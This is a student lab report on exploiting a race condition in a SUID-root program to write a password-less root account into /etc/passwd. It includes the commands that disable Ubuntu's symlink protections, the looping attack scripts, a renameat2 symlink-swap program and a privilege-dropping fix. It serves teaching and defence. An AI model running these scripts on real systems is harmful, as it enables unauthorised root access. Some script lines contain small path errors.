

# Report 1: Race Condition

## Task 1: Turning off Ubuntu's Safety Featues

Ubuntu has security features to prevent race condition vulnerabilities. So, first off, we will have to turn them off by executing the following commands:

```sh
$ sudo sysctl -w fs.protected_symlinks=0
$ sudo sysctl fs.protected_regular=0
```


With that done we can begin the exploit proper.

## Task 2: A Vulnerable Program

The lab gives us a vulnerable program by the name of vulp:

```c
#include <stdio.h>
#include<unistd.h>

int main()
{
    char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;

    /* get user input */
    scanf("%50s", buffer );

    if(!access(fn, W_OK)){ 
        fp = fopen(fn, "a+"); 
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
}
``` 
The **"!access(fn, W_OK)"** is there for the program to see if the user has the permissions to change the file. The **"fp = fopen(fn, "a+")"** opens the file.

But how is this program vulnerable? We run these 3 lines:

```sh
$ gcc vulp.c -o vulp
$ sudo chown root vulp
$ sudo chmod 4755 vulp
```


This 3 lines compile the program and make it run with **SUID**. This means that when any user runs this program, this process is executed as **root**! So, by leveraging this process using the race condition, we can potentially write to any file, including to **/etc/passwd** and introducing our own root user.

## Task 3: Exploring the /etc/passwd file

The **/etc/passwd** file contains a list of every user on the OS. It shows the user's name, password, and more importantly the **ID**. The ID 0 being reserved for root users. The following exemple ilustrates this:

```sh
root:x:0:0:root:/root:/bin/bash
```

We can see that the user **root** has ID 0 and password of **x**. This might seem a bit strange, but x means that the password's hash is the etc/shadow file.

Ubuntu has a certain password that allows for an password-less account. This password being: **U6aMy0wojraho**. As we see bellow we can create an account wit it and we can log in without giving the password. We will use it later in the exploit.


## Task 4: Launching the Attack on a Slow Computer

With the access control files explored, we will now finally attack the system. But let us start with an easy example first. The race condition vulnerability only works if we can execute it in between the **access** and **open** lines in the vulp script. So, to facilitate this exploit, we will add a **sleep(10)** in between those lines to allow us to better exploit it, so we alter the vulp.c as such:

```c
#include <stdio.h>
#include<unistd.h>

int main()
{
    char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;

    /* get user input */
    scanf("%50s", buffer );

    if(!access(fn, W_OK)){ 
        sleep(10);
        fp = fopen(fn, "a+"); 
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
}
```

With this line we can "simulate" a slow computer. So, with that ready, we can finally exploit the vulnerablity.

1. Open 2 terminals, one will be for running the vulp, the other for changing the symbolic links between **/tmp/XYZ** and **/etc/passwd/**.
2. Exectue the program and write a new user specification like those in the **passwd** file:
```sh
$ ./vulp
$ vuln:U6aMy0wojraho:0:0:vuln:/root:/bin/bash
```
3. Finally, in the other terminal we change the symbolic link:
```sh
$ ln -sf /etc/passwd /tmp/XYZ
```
And we've done it! We illustrate the exploit's workings with the following images:





We successfully exploited the vulnerability and gained root access!

## Task 5: Launching the Attack on a Normal Computer

An exploit that only works on very slow computers clearly isn't what we are after. So, we now want one that works on the original vulp script. 
Timing is key for this exploit, we only have root priveleges for a very short window of time and the way to do it is to execute the exploit in that time. This is very hard and time consuming for a human to do maunualy, luckily, we can craft a script that attempts it as many times it takes to get it to work.
For this exploit, we made two bash scripts that run at the same time. One that deletes the **/tmp/XYZ** file, creates it again and links it to **/etc/passwd** until it sees that the **/etc/passwd** has changed. And the second runs the vulp script with the same input on a file, that being: **exp:U6aMy0wojraho:0:0:exp:/root:/bin/bash**. We have the two scripts bellow:

```sh
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    rm -f tmp/XYZ
    >/tmp/XYZ
    ln -sf /etc/passwd /tmp/XYZ
    new=$($CHECK_FILE)
done
echo "STOP... passwd file has been changed"
```

And the second script:

```sh
#!/bin/bash

while true
do
    ./vulp < attack_input
done
```

With these to scripts we were able to exploit the race condition on a "normal" computer as the following images show:


It took us arround 2 minutes for it to work, but as we found out, it does not always work. That is because, with the script above, we created our own race condition! When we delete **/tmp/XYZ**, create it again and link it, the vulp script might beat us to the file creation and create **/tmp/XYZ** himself. That might not seem like a problem, but now the file is created and owned by root and that means that we cannot delete it anymore and change its symbolic link making the exploit not work anymore.
There is a solution, we can use a C library to swap symbolic links without removing the **/tmp/XYZ**, as we see below:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
int main()
{
    unsigned int flags = RENAME_EXCHANGE;
    unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
    unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
    renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
    return 0;
}
```

With the **link_script.c** done we can now create a new bash script:

```sh
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    .\link_script
    new=$($CHECK_FILE)
done
echo "STOP... passwd file has been changed"
```

The problem is now solved and we can now exploit the vulnerability without aditional troubles.

## Task 6: Countermeasures

What makes the **vulp** script vulnerable is that it does not obey the **Principle of Least Privilege**. The program runs as a root, and that can cause many problems, the programmer tried to limit those problems by introducing the **access** to limit the user's powers. This is not the way, it does not limit the user's privileges and there is a better way to do that like we show bellow:

```c
#include <stdio.h>
#include<unistd.h>

int main()
{
    char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;

    /* get user input */
    scanf("%50s", buffer );

    if(!access(fn, W_OK)){ 
        uid_t original_uid = geteuid();
        seteuid(getuid());
        fp = fopen(fn, "a+"); 
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
        seteuid(original_uid);
    }
    else printf("No permission \n");
}
```
We added the 3 lines: **uid_t original_uid = geteuid();** , **seteuid(getuid());** and **seteuid(original_uid);**. We use the seteuid to temporarly drop the root privileges when we open and write to the file. That way an user cannot abuse the race condition to write to a forbidden file like **/etc/passwd**. This way we are also upholding the **Principle of Least Privilege** as we revert to a lesser privilege whenever possible.

As we stated at the beginning, Ubuntu comes with some protections againts attacks like ours. We had to turn them off to make the attack work. But what are they actually doing? **fs.protected_symlinks**, when turned on, makes it impossible to link files with different **UIDS**. That means that we could not link up the **/etc/passwd** file to the **/tmp/XYZ** file as one is owned by seed and the other by root. This does reduce the scope of the attack by only allowing to affect files that are owned by the user, making the exploit not very useful. **fs.protected_regular** simularly dissalows writing to files when the UIDS do not match. We can turn them on again by executing the following:

```sh
$ sudo sysctl -w fs.protected_symlinks=1
$ sudo sysctl fs.protected_regular=1
```

With the two security features on our attack is rendered mute. However, this only restricts symlink attacks, race conditions are used for a miriad of reasons and there are many ways to exploit them , so when programming, one should be careful to avoid them as much as possible as they can be used to great effect.

### Authored by:
    Eduardo Ramos, up201906732
    ...


